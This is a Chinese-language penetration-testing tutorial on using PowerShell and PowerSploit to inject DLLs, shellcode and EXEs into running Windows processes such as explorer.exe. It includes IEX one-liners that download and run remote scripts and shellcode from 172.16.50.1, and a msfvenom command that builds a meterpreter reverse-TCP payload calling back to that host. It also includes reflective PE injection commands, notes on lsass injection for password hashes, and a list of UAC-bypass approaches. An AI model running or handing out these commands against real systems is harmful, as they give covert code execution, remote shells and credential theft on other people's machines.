



# powershell(9)-Dll注入&shellcode注入&exe注入

## 理解DLL
首先我们需要知道我们在启动一个程序的时候并没有把所有的需要用到的数据或者文件运行起来，而是只运行了关键部分，那么当我们需要调用到某一功能时再通过DLL来动态链接，不需要时就可以卸载，使得程序不显得臃肿。

## DLL注入是什么
DLL注入就是将代码插入/注入到正在运行的进程中的过程。我们注入的代码是动态链接库（DLL）的形式。为什么可以做到这一点？因为DLL（如UNIX中的共享库）是在运行时根据需要来进行加载。在这个项目中，我将只使用DLL，但是实际上还可以使用其他各种形式（任何PE文件、shellcode/assembly等）来“注入”代码，这些在恶意软件中非常常见。

当然你需要有对应的权限才能进行对某些进程的注入，一般来说，常用技术是注入“lsass.exe”进程以获取密码哈希值。恶意软件也广泛使用代码注入技术，例如，运行shellcode、运行PE文件或将DLL加载到另一个进程的内存中以隐藏自身，等等。

## DLL注入场景
我们来简单的分析一下我们可能遇到的场景：比如我们目前有一台Win2008的机器，目前有两个用户登陆到机器上分别用户A和B，比如我们A用户想看到B用户的桌面是不能实现的（WIndows中的Session隔离机制），我们想要进入到B用户桌面可以通过Dll注入到B用户的Explore进程下，拥有这个进程下的Token使用createremotethread创建线程，去打开桌面。这就是我们DLl注入的利用场景，但是需要注意的是我们只能从高权限往低权限切（好像是废话...），说到高往低权限切换，就简单的提一下UAC...

## UAC
简单来说，这就是个Windows的保护机制，直观感受就是当你打开某些程序的时候会有一个弹框让你确认是否给权限，就像这样

那么绕过的方法也是有很多，那么大多都是通过下面3点来做的:

1. 使用wusa.exe
2. Dll劫持
3. IFileOperation-COM对象
具体细节大家可自行百度，这里只做提及，最后推荐注入explorer.exe这样的进程，只要操作系统在运行这个进程能稳定的让我们注入。

我们再来看看MSF提供的UAC绕过:

用这些基本也就够了，那么还有其他大家可以去Github自行发现。

## Powershell-DLL注入

那么对于DLL注入技术不是我们的重点，我们主要是利用Powershell使用已有的工具进行DLL注入，那么Powersploit中的Invoke-DllInjection已经完成对于DLL注入的利用，我们先来看看利用的过程:

1. 利用IEX下载脚本
下载脚本通过下面的语句即可下载：`IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-DllInjection.ps1")`此时，代码已经被运行。

2. 通过MSF生成恶意DLL

3. 通过Ps加载DLL完成利用
首先我们查看一个我们当前用户能注入的进程，我们选用explorer进程来进行注入

下面是执行成功的结果

最后我们可以看到msf返回一个会话：


## Powershell-ShellCode注入

上面的DLL注入是比较主流的利用方式，但是我们还可以直接注入我们的shellcode进进程，同样也能在powersploit找到对于的代码:Invoke-Shellcode，我们先来看看利用过程：

1. 利用IEX下载脚本
`IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1")`
2. 通过MSF生成恶意代码

之后通过Web下载的方式来导入shellcode
`IEX(New-Object Net.WebClient).DownloadString("http://172.16.50.1/test")`
3. 通过Ps加载shellcode完成利用
执行代码`Invoke-Shellcode -Shellcode ($buf)`就可以执行代码了，但这样的方式是注入到当前的powershell进程，我们可以通过-processid参数指定我们要注入的进程，但同样需要注意的是用户是否有权限对对应的进程进行注入，`Invoke-Shellcode -Shellcode ($buf) -ProcessID 2344`，还有一点需要注意的是这个脚本是无法验证32位系统还是64位系统，所以需要大家自己去验证之后再进行注入。

## Powershell-EXE注入
下面介绍的这个脚本是我非常喜欢使用的脚本：[反射型PE或者Dll注入](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)，这个脚本能够直接注入我们的EXE文件当然Dll也可以，在我们实际的渗透测试过程中帮助非常大。


这里我们来简单操作一下这个过程:首先生成msf马`msfvenom -p windows/x64/meterpreter_reverse_tcp -e -i 3 LHOST=172.16.50.1 LPORT=2333 -f exe -o ~/shell.exe`之后再通过下面的注入

```powershell
$PEBytes = [IO.File]::ReadAllBytes('.\Desktop\powershell\shell.exe')
Invoke-ReflectivePEInjection -PEBytes $PEBytes -ForceASLR
```


可以看到我们这里有关于ASLR的警告，这个ASLR就是是一种针对缓冲区溢出的安全保护技术，通过对堆、栈、共享库映射等线性区布局的随机化。那么我们这里只需要加上-ForceASLR参数即可。



可以看到我们直接就能得到这个会话。